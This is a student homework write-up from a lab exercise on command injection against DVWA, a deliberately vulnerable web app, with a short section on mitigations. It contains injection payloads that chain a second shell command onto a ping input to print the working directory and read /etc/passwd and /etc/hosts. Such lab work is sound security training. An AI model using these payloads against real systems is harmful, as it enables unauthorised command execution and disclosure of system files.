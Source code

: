 # Unit 15 Homework

### Web Application 1: *Your Wish is My Command Injection*

1. Complete the following to set up the activity. 

    - Start Terminal and run `cd Documents/web-vulns && docker-compose up`

    - Navigate to the following webpage: <http://192.168.13.25> and select the **Command Injection** option.
    
      - The web page should look like the following:

        ![DVWA Code Injection](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/DVWA%20Code%20Injection.PNG)


2. This page is a new web application built by Replicants in order to enable their customers to `ping` an IP address. The web page will return the results of the ping command back to the user.

    - Complete the following steps to walkthrough the intended purpose of the web application. 

      - Test the webpage by entering the IP address `8.8.8.8`. Press Submit to see the results display on the web application.

        ![DVWA Ping 8.8.8.8](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/DVWA%20Ping%208.8.8.8.PNG)

     - This process is no different than if we went to the command line and typed that same command: `ping 8.8.8.8`

        ![Terminal Ping 8.8.8.8](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/Terminal%20Ping%208.8.8.8.PNG)

3. Test if we can manipulate the input to cause an unintended result.

    - On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && pwd`

    - This command uses two ampersands to add a second command to the original request:

      - Terminal `ping 8.8.8.8 && pwd`: 

        ![Terminal ping & pwd](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/Terminal%20Ping%208.8.8.8-pwd.PNG)
  
      - DVWA `8.8.8.8 && pwd`:

        ![DVWA ping & pwd](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/DVWA%20Ping%208.8.8.8.-pwd.PNG)


4. Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
    - DVWA `8.8.8.8 && cat /../etc/passwd`:
      
        ![DVWA ping & cat](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/DVWA%20ping-passwd.PNG)
    
    - Terminal `ping 8.8.8.8 && cat /../etc/passwd`:

        ![Terminal ping & cat](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/Terminal%20Ping-passwd.PNG)

    - DVWA `8.8.8.8 && cat /../etc/hosts`:

        ![DVWA ping & cat](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/DVWA%20ping-hosts.PNG)

    - Terminal `ping 8.8.8.8 && cat /../etc/hosts`:

        ![Terminal ping & cat](https://github.com/naseebahikram/Homework-15/blob/main/Homework%2015%20Pictures/Terminal%20ping-hosts.PNG)
  

5. **Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies. 

  - Run with restricted permissions
    - This will reduce the number of users that can access the database. It will also secure the location of all the confidential files and directories. 
  - Don't use command line calls if possoble
    - Use APIs whenever possible

